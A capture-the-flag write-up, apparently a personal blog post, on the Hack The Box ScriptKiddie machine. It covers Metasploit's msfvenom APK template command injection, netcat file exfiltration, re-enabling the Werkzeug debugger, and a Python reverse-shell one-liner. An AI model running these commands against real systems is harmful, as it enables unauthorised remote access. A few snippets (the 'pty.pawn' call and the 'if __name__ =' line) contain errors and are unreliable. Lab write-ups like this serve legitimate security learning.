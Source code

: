 ```yaml
---
title: "HTB Writeup 1: Werkzeug"
date: 2020-03-18T07:56:03+00:00
# weight: 1
# aliases: ["/first"]
tags: ["hack the box"]
author: Nate
# author: ["Me", "You"] # multiple authors
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A completely unnecessary hack."
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
searchHidden: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page

---
```


### Messing with the Werkzeug Vulnerability in ScriptKiddie

> As stated in the description, this is a very unnecessary hack.
However, I wanted to test out the Werkzeug vulnerability and the
ScriptKiddie box allowed me to do so without a lot of setup. This writeup
will show you how to get the user flag, but after that it simply details
how to enable the Werkzeug debugger vulnerability and exploit it.  
All just for fun!  

### Background:

**Werkzeug**  

*A comprehensive WSGI web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries.*  

* Werkzeug comes with an intuitive debugger console that accepts Python scripts.  
the issue arises when debugging is enabled in a production environment.  
When the debugger console is available, so is the potential to put down a Python shell.  


### Scanning the box

We're starting off with a fairly simple Nmap scan for this one:  
`nmap -A 10.10.10.226`  

Here's the output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
```

  This is what initially sent me down the Werkzeug path. Being that this is and easy
capture the flag box. It would make sense that this is the vulnerability they
added...but that's not the case!  

Since it's running a web application though, we should check out what they've built.

### Reverse shell  

  The site has a few features built in like running an Nmap scan or building a reverse shell
payload (guess that's why this one is titled ScriptKiddie). The reverse shell feature has
an option to upload a template file. This is where things get fun.

* We can use **msvenom** to create a reverse shell pretty quickly.
It looks like the site accepts a few different file types based on operating system.
Let's select Android since that's definitely a .apk file.

`msfconsole > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  

Using that template, set the LHOST and LPORT to your local information.
and set the RHOST and RPORT to the ScriptKiddie box information.

annnnnd "exploit"

Now, before we do anything with this file let's set up a netcat listener on our machine:  

`nc -nlvp <port>`

Head back to the site and select the .apk file you just generated and upload it.
Don't forget to type in your IP on the host box and select Android from the dropdown menu.  
Upload your file and head back to your listener!

```  

  └─# nc -nlvp 4444           
      listening on [any] 4444 ...
      connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 35962

```

### Capture the flag!

  We have a shell now! (Well sort of). Doesn't seem to be interactive yet.
Python comes with a great module called Pseudo-terminal Utilities.
We can use this to our advantaged to spawn a bash shell and interact with the machine.

`python3 -c "import pty;pty.pawn('/bin/bash')"`  

If nothing happens at first try just hitting enter or waiting a minute...it is Python...  

You should see an interactive terminal now under the user 'kid.'  

kid@scriptkiddie:~/html$  

Snoop around for a bit and you should find the user.txt flag!  

### On to learn about the Werkzeug Debugger

> There's still a root flag to find, but I'll leave that to you. There are
plenty of other writeups for that if you wish to use one.

  Digging around in the directory reveals that we have access
to the "app.py" file. This is the Python script that launches the web app.  
Let's see what we can do with this.  

**Step 1 - Get the web app to run in debug mode**  

* Being able to edit it in vim is highly unlikely through a remote shell connection.
The lack of key mapping would make that nearly impossible. We should be able to retrieve the file though.  

* For this let's set up another netcat listener on our machine for a file transfer.
Here's the command: nc -l -p <port to listen on> > <file>

`nc -l -p 1234 > app.py`

* Go back to the shell you have open on the target machine and start a netcat transfer
from there. Here's the command: nc -w 3 <IP for receiving machine> < <file>

`nc -w 3 10.10.14.14 1234 < app.py`

Once you've verified that you have the file, delete it from the target machine.
"rm app.py" should do just fine.  

* Now we can edit the file on our machine. Personally I find it's easier just to load it
in vim since we're already in a console but feel free to use anything you like.

* From looking at the Werkzeug documentation it seems like we can enable debugging by adding
a few parameters to the app.run() function:

 ```
 if __name__ = '__main__':
			app.run(host=os.getenv('IP', '0.0.0.0'),
			port=int(os.getenv('PORT', 1234)),
			debug=True)
 ```

 *Here I set the port to 1234 because it's likely that the Flask service is already running
 on port 5000*  

 * Netcat the file back over to the target machine and start it up!

```

kid@scriptkiddie:~/html$ python3 app.py
python3 app.py
* Serving Flask app "app" (lazy loading)
* Environment: production
WARNING: This is a development server. Do not use it in a production deployment.
Use a production WSGI server instead.
* Debug mode: on
* Running on http://0.0.0.0:1234/ (Press CTRL+C to quit)
* Restarting with stat
* Debugger is active!
* Debugger PIN: 296-961-101

 ```
* Yes! The web app is now running in debug mode, and we have a debugger pin!

**Step 2 - Drop in a reverse shell through the console**

* Navigate to http://10.10.10.226:1234/console to get to the debugger. Enter the pin to
log in.

* The goal is to exploit the vulnerability in the debugger that allows us to establish a reverse shell. Since the console allows for Python scripts, this is fairly simple.

*Pentest Monkey has a cheat sheet for this if you want to stick to the Script Kiddie way of life.*  

[Reverse Shell Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Since the console already knows that we're running Python, remove the "python -c" from the beginning as well as the quotes. Then add the IP and port of your machine.

* Before you hit Enter, make sure to set up a netcat listener on the port you used in the script!

**There we have it! We have officially exploited the Werkzeug vulnerability and established a**
**reverse shell connection. However, the Werkzeug app isn't running on an account with root access, so still no root flag...but hey, it was fun manipulating the system!**


### References:

**CVE-2018-14649**
https://nvd.nist.gov/vuln/detail/CVE-2018-14649

**Werkzeug Debugging**
https://werkzeug.palletsprojects.com/en/1.0.x/debug/
